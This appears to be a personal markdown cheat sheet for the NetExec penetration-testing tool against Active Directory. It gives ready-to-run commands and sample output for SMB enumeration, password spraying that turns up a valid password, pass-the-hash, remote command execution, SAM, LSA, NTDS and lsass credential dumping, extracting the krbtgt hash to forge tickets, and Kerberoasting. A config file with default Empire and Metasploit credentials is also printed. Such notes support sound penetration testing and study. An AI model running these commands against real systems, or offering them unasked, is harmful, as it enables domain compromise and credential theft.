 ```yaml
---
title: NetExec-overview-AD
date: 2024-01-22 10:00:00
categories: [tool, active_directory]
tags: [windows, privesc, enumeration]    # TAG names should always be lowercase
image: https://cloud.githubusercontent.com/assets/5151193/17577511/d312ceb4-5f3b-11e6-8de5-8822246289fd.jpg
---
```

## My notes for the <a href="https://github.com/Pennyw0rth/NetExec">Netexec</a> tool

Enumeration:

```bash
nxc smb -h
```

```bash
nxc smb <URL>
SMB <URL> 445  DC-DC [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc.local) (signing: True) (SMBv1:False)
```

Name: PC’s name

domain: domain’s name

SMBv1:True (Possible Eternal Blue exploit)

Check for acounts:

```bash
nxc smb <URL> -u 'guest' -p ''

SMB   <URL>   445   DC-DC   [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc.local) (signing: True) (SMBv1:False)
SMB   <URL>   445   DC-DC   [-] dc.local\guest: STATUS_ACCOUNT_DISABLED
```

With a file:

```bash
nxc smb <URL> -u 'usern.name' -p 'password_file.txt'
```

```bash
SMB   <URL>   445   DC-DC   [*] Windows 10.0 Build 20348 x64 (name: DC-DC) (domain: dc. local) (signing:True) (SMBv1:False)
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:password STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:Password123 STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [-] dc.local\name.surname:Summer2023! STATUS_LOGON_FAILURE
SMB   <URL>   445   DC-DC   [+] dc. local\name.surname:SeekTheCheapestRoute!
```

Pass the password:

```bash
nxc smb <URL> -u 'user_file.txt' -p '<found_password>'
```

With credentials: (enumerate users and groups)

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' --rid-brute
```

With`--log` you can log a specific command to a specific file

config file:

```bash
/home/kali/.nxc/nxc.conf
[nxc]
workspace = default
last_used_db = smb
pwn3d_label = Pwn3d!
audit_mode =
reveal_chars_of_pwd = 0
log_mode = False <--- if True generates log in the "/home/kali/.nxc/logs" folder
ignore_opsec = True
host_info_colors = ["green", "red", "yellow", "cyan"]

[BloodHound]
bh_enabled = False
bh_uri = 127.0.0.1
bh_port = 7687
bh_user = neo4j
bh_pass = neo4j

[Empire]
api_host = 127.0.0.1
api_port = 1337
username = empireadmin
password = password123

[Metasploit]
rpc_host = 127.0.0.1
rpc_port = 55552
password = abc123
```

Kerberos Auth:

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' -k
```

If you have a tgt ticket:

```bash
export KRB5CCNAME=ticket.ccache
nxc smb <URL> -u 'user.name' -p 'found_password' --use-kcache
```

Execute commands:

```bash
nxc smb <URL> -u 'user.name' -p 'found_password' -x 'command' <--- cmd
nxc smb <URL> -u 'user.name' -p 'found_password' -X 'command' <--- Powershell
nxc smb <URL> -u 'user.name' -p 'found_password' -x 'powershell.exe -c "GCI C:\\"' <--- Powershell without obfuscation
```

If you got admin the first thing to do is dump the sam/lsa:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --sam 
```

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --lsa
```

Auth with Hash:

```bash
nxc smb <URL> -u 'USER-DC$' -H <hash>
```

PC name needed.

ntds dump:

```bash
nxc smb <URL> -u 'USER-DC$' -H <hash> --ntds
```

ntds dump of a single user: (better krbtgt)

```bash
nxc smb <URL> -u 'USER-DC$' -H <hash> --ntds --user krbtgt
```

With the hash of the krbtgt we can forge our own tickets.

Modules:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' -M nanodump
```

Get lsass dump and parse the result with pypykatz

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' -M lsassy
```

Dumps lsass and parse the result remotely with lsassy

Put files in the smb share:

```bash
nxc smb <URL> -u 'Administrator' -p 'admin_pass' --put-file file.txt '\\file.txt'
```

### LDAP

```bash
nxc ldap -L <--list modules
```

Kerberoast:

```bash
nxc ldap <URL> -u 'Administrator' -p 'admin_pass' --kerberoasting outfile.txt
```